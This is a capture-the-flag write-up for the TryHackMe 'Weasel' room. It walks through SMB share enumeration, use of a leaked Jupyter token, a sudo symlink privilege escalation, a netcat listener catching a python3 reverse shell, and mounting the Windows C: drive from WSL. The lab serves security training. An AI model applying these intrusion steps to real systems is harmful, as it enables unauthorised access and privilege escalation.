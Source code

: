 ```yaml
---
title: THM Weasel
author: hanhctf
date: 2023-05-25 14:22:22 +0700
categories: [Write-up, THM]
tags: [smb, jupyter notebook]
toc: true
mermaid: true
---
```


# [**Weasel**](https://www.tryhackme.com/room/weasel)

# Summary

> - SMBclient check valid location  
> - Got jupyter token  
> - Open new Terminal on jupyter notebook  
> - Privilege Escalation on jupyter console  
> - Check linux enviroment(Docker/WSL)  
> - Mount C: drive
> - Got user.txt and root.txt  

# Detail

## NMAP

```
PORT      STATE SERVICE       REASON  VERSION
22/tcp    open  ssh           syn-ack OpenSSH for_Windows_7.7 (protocol 2.0)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8888/tcp  open  http          syn-ack Tornado httpd 6.0.3
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
```

Port 139/445 opoen for SMB service.  
Check SMB with `SMBClient`

```
smbclient -L ////10.10.218.64              
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        datasci-team    Disk      
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.218.64 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```  

We can access to `datasci-team`.  
Enumeration in `datasci-team`, we found `jupyter-token.txt` that can access webpage in port `8888`  

Open new `Terminal`
Check some basic command on linux:  

```
(base) dev-datasci@DEV-DATASCI-JUP:~$ id;whoami
uid=1000(dev-datasci) gid=1000(dev-datasci) groups=1000(dev-datasci),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev)
dev-datasci
(base) dev-datasci@DEV-DATASCI-JUP:~$ sudo -l
Matching Defaults entries for dev-datasci on DEV-DATASCI-JUP:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev-datasci may run the following commands on DEV-DATASCI-JUP:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /home/dev-datasci/.local/bin/jupyter, /bin/su dev-datasci -c *
(base) dev-datasci@DEV-DATASCI-JUP:~$ which jupyter
/home/dev-datasci/anaconda3/bin/jupyter
(base) dev-datasci@DEV-DATASCI-JUP:~$
```

We can run `/home/dev-datasci/.local/bin/jupyter` with sudo without password.  
But  

```
(base) dev-datasci@DEV-DATASCI-JUP:~$ /home/dev-datasci/.local/bin/jupyter
bash: /home/dev-datasci/.local/bin/jupyter: No such file or directory
```

Location `jupyter` is in `/home/dev-datasci/anaconda3/bin/jupyter`  
So Create symbol link from `/home/dev-datasci/anaconda3/bin/jupyter` to `/home/dev-datasci/.local/bin/jupyter`

`ln -s /home/dev-datasci/anaconda3/bin/jupyter /home/dev-datasci/.local/bin/jupyter`

And run with `sudo` `sudo /home/dev-datasci/.local/bin/jupyter console`

We in `jupyter console`.  
On Terminal, we listen on port 9001 and add python3 reverse shell on jupyter console.  

We in  

```
nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.8.51.36] from (UNKNOWN) [10.10.85.46] 50774
root@DEV-DATASCI-JUP:/home/dev-datasci# 

```  

Can not find `root.txt` in `/root` ==> Maybe we are in docker or wsl

```
root@DEV-DATASCI-JUP:/home/dev-datasci# cat /proc/1/cgroup | grep "docker\|lxc\|kube"
cat /proc/1/cgroup | grep "docker\|lxc\|kube"
root@DEV-DATASCI-JUP:/home/dev-datasci# grep -q "Microsoft" /proc/version && echo "WSL" || echo "Not WSL"
grep -q "Microsoft" /proc/version && echo "WSL" || echo "Not WSL"
WSL
root@DEV-DATASCI-JUP:/home/dev-datasci# 

```

OK, we in WSL.

Mount C: drive to /mnt/c

```
root@DEV-DATASCI-JUP:/home/dev-datasci# mount -t drvfs C: /mnt/c
mount -t drvfs C: /mnt/c
root@DEV-DATASCI-JUP:/home/dev-datasci# ls -la /mnt/c
ls -la /mnt/c
ls: cannot read symbolic link '/mnt/c/Documents and Settings': Permission denied
ls: cannot access '/mnt/c/pagefile.sys': Permission denied
ls: '/mnt/c/System Volume Information': Permission denied
total 0
drwxrwxrwx 1 root root 4096 Aug 25  2022 '$Recycle.Bin'
drwxrwxrwx 1 root root 4096 Mar 14 04:14  .
drwxr-xr-x 1 root root 4096 Aug 25  2022  ..
lrwxrwxrwx 1 root root   12 Aug 25  2022 'Documents and Settings'
drwxrwxrwx 1 root root 4096 Aug 25  2022  PerfLogs
drwxrwxrwx 1 root root 4096 Aug 25  2022 'Program Files'
drwxrwxrwx 1 root root 4096 Aug 25  2022 'Program Files (x86)'
drwxrwxrwx 1 root root 4096 Mar 13 04:47  ProgramData
drwxrwxrwx 1 root root 4096 Aug 25  2022  Recovery
d--x--x--x 1 root root 4096 Aug 25  2022 'System Volume Information'
drwxrwxrwx 1 root root 4096 Aug 25  2022  Users                                                                                                                                                                                              
drwxrwxrwx 1 root root 4096 Mar 13 05:05  Windows                                                                                                                                                                                            
drwxrwxrwx 1 root root 4096 Aug 25  2022  datasci-team                                                                                                                                                                                       
-????????? ? ?    ?       ?            ?  pagefile.sys                                                                                                                                                                                       
root@DEV-DATASCI-JUP:/home/dev-datasci#   
```

***We got both user.txt and root.txt in `/mnt/c`***
